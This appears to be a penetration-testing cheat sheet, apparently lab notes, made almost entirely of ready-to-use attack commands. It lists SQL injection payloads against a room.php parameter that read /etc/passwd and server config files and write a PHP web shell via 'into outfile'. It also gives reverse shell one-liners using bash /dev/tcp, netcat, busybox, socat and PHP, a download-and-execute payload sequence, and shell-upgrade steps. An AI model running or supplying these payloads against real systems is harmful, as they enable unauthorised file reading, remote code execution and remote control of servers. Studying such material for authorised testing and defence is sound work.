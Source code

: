 Write File and where to write (read configuration file):
```
/room.php?cod=33+UNION+SELECT+NULL,load_file("/etc/apache2/sites-available/000-default.conf"),NULL,NULL,NULL,NULL,NULL

/room.php?cod=3+UNION+SELECT+NULL,"test",NULL,NULL,NULL,NULL,NULL+into+outfile+'/var/www/html/images/1.txt'

/room.php?cod=33+UNION+SELECT+NULL,load_file("/etc/passwd"),NULL,NULL,NULL,NULL,NULL+into+outfile+'/var/www/html/images/3.txt'
```

File Upload to RCE:

```
/room.php?cod=33+UNION+SELECT+NULL,"<?=`$_GET[0]`?>",NULL,NULL,NULL,NULL,NULL+into+outfile+"/var/www/html/images/rev.php"
```


# Reverse Shell

https://www.revshells.com/

Check connectivity:
```
sudo tcpdump -i tun0 icmp -v -n
ping -c 5 192.168.45.226
```

## Upgrade Shell

```
which python / which python3

python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty -a
stty raw -echo; fg
stty rows 60 cols 111
export TERM=xterm
reset
```

## Linux

```
bash -c "bash -i >& /dev/tcp/192.168.45.197/443 0>&1"
nc 192.168.45.239 4444 -e /bin/bash

<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.213/443 0>&1'");
?>

wget 192.168.45.194/payload/bash-shell -O /tmp/shell
chmod +x /tmp/shell
/tmp/shell

busybox nc 192.168.45.218 443 -e sh

#Needs netcat
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.160 443 >/tmp/f

# Full TTY reverse shell
socat TCP:ATTACKER_IP:4444 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane

```